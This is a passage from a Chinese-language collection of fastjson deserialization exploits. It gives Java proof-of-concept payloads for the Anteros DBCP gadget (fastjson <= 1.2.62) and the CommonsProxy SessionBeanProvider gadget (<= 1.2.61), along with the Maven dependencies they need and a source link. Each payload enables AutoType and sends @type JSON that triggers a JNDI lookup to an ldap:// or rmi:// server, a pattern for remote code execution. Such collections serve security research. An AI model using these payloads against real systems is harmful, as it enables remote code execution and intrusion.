 ```java
public static void main(String[] args) {
    ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
    String payload = "{\"@type\":\"br.com.anteros.dbcp.AnterosDBCPConfig\",\"healthCheckRegistry\":\"ldap://localhost:43658/Calc\"}";//ldap方式
    JSON.parse(payload);
}
```

### 影响版本

- fastjson <= 1.2.62

### 依赖

```
<dependency>
    <groupId>com.codahale.metrics</groupId>
    <artifactId>metrics-healthchecks</artifactId>
    <version>3.0.2</version>
</dependency>
<dependency>
    <groupId>br.com.anteros</groupId>
    <artifactId>Anteros-Core</artifactId>
    <version>1.2.1</version>
</dependency>
<dependency>
    <groupId>br.com.anteros</groupId>
    <artifactId>Anteros-DBCP</artifactId>
    <version>1.0.1</version>
</dependency>
```

### 来源

- https://github.com/threedr3am/learnjavabug/blob/master/fastjson/src/main/java/com/threedr3am/bug/fastjson/rce/AnterosPoc.java

## CommonsProxy RCE（<=1.2.61）

CommonsProxy fastjson <= 1.2.61 RCE，需要开启AutoType

### Payload

```java
public static void main(String[] args) {
    //TODO 使用rmi server模式时，jdk版本高的需要开启URLCodebase trust
//    System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
    ParserConfig.global.setAutoTypeSupport(true);
//    String payload = "{\"@type\":\"org.apache.commons.proxy.provider.remoting.SessionBeanProvider\",\"jndiName\":\"rmi://localhost:43657/Calc\"}";
    String payload = "{\"@type\":\"org.apache.commons.proxy.provider.remoting.SessionBeanProvider\",\"jndiName\":\"ldap://localhost:43658/Calc\",\"Object\":\"a\"}";
    try {
      JSON.parseObject(payload);
    } catch (Exception e) {
      e.printStackTrace();
    }
    JSON.parseObject(payload);
}
```

